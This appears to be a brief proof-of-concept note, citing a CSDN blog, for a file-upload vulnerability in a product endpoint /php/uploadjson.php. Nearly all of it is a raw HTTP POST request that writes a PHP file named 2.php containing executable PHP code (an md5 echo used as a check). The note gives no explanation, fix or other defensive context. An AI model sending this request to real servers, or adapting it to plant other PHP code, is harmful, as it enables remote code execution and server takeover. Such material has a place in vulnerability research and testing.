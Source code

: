 # spon_uploadjson_fileupload
2024/1/15
from :https://blog.csdn.net/luochen2436/article/details/135504061?spm=1001.2014.3001.5502
@2
```
POST /php/uploadjson.php HTTP/1.1
Host: your_ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip
 
jsondata[filename]=2.php&jsondata[data]=<?php echo md5('123456');?>

```
